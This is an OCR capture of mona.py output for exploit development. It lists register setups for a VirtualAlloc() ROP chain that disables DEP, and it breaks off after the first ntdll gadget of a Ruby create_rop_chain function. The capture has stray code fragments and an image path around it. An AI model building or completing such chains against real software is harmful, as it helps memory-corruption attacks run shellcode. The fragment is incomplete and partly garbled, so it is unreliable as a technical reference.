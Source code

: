 	""); // :

	--------------------------------------------------------------------------------------------------

	################################################################################

	Register setup for VirtualAlloc() :

	--------------------------------------------

	EAX = NOP (0x90909090)

	ECX = flProtect (0x40)

	EDX = flAllocationType (0x1000)

	EBX = dwSize

	ESP = lpAddress (automatic)

	EBP = ReturnTo (ptr to jmp esp)

	ESI = ptr to VirtualAlloc()

	EDI = ROP NOP (RETN)

	--- alternative chain ---

	EAX = ptr to &VirtualAlloc()

	ECX = flProtect (0x40)

	EDX = flAllocationType (0x1000)

	EBX = dwSize

	ESP = lpAddress (automatic)

	EBP = POP (skip 4 bytes)

	ESI = ptr to JMP [EAX]

	EDI = ROP NOP (RETN)

	+ place ptr to "jmp esp" on stack, below PUSHAD

	--------------------------------------------

	ROP Chain for VirtualAlloc() [(XP/2003 Server and up)] :

	--------------------------------------------------------

	*** [ Ruby ] ***

	def create_rop_chain()

	# rop chain generated with mona.py - www.corelan.be

	rop_gadgets =

	[

	0x7772c1f0, # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
